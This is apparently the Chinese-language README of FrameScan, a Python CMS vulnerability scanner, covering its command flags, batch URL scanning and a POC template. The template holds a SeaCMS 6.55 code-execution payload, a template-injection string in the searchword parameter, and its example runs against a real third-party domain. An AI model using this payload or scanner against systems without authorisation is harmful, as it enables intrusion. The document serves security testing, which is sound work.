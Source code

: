 # FrameScan

## 工具简介

FrameScan是一款python3编写的简易的cms漏洞检测框架，支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。

## 支持平台

- Windows  

- Linux  

- MAC（请自测）

## 工具特点

- 单URL批量检测
- 单URL单漏洞检测
- 单URL指定CMS检测
- 多URL单漏洞检测
- 单URL单漏洞检测
- 单URL指定CMS检测

详细参数如下：

```
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -c          List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
```


## 使用方法

下载项目

```python
git clone https://github.com/qianxiao996/FrameScan
```

安装依赖（不需要！）

```
脚本主要依赖于以下模块（无需安装）
import sys,os,re
from color import *
import sqlite3,requests
```

运行脚本

```
>python3 FrameScan.py
     _____                         ____
    |  ___| __ __ _ _ __ ___   ___/ ___|  ___ __ _ _ __
    | |_ | '__/ _` | '_ ` _ \ / _ \___ \ / __/ _` | '_ \
    |  _|| | | (_| | | | | | |  __/___) | (_| (_| | | | |
    |_|  |_|  \__,_|_| |_| |_|\___|____/ \___\__,_|_| |_|

    Options:                          Code by qianxiao996
    -----------------------------------------------------
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -lc         List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
    -----------------------------------------------------
    FrameScan  V1.0              Blog:blog.qianxiao996.cn
```

单URL批量检测

```
python3 FrameScan.py -u URL
```

单URL单漏洞检测（POC_METHOS可以用 -l、-s、-lc进行查询）

```
python3 FrameScan.py -u URL -m POC_METHOS
```

单URL指定CMS检测

```
python3 FrameScan.py -u URL -m POC_METHOS
```

多URL批量检测

```
python3 FrameScan.py -f 文件名
```

多URL单漏洞检测

```
python3 FrameScan.py -f 文件名  -m  POC_METHOS
```

多URL指定CMS检测

```
python3 FrameScan.py -f 文件名  -c  CMS类型
```

## 自定义POC模板

代码中采用自定义彩色输出，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
sys.path.append('../../')
from color import *
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请尽量使用彩色字体 printGreen、 printBlue、printYellow函数
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            result = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if result.status_code == 200 and 'code' in result.text:
                printGreen("[+]Success:存在seacms 6.55 代码执行漏洞！\nPayload:\nURL:%s\nPOST:%s"%(url_path,payload))
                sys.exit(1)
            else:
                printBlue("[-]Info:不存在seacms 6.55 代码执行漏洞")
                sys.exit(1)
        except Exception as e:
            # print (e)
            printYellow("[-]Warning:"+self.__class__.__name__+" ==>可能不存在漏洞")
            sys.exit(1)

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    testVuln.run()
```

## 鸣谢

POC多数来源于
AngelSword:https://github.com/Sch01ar/AngelSword
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**
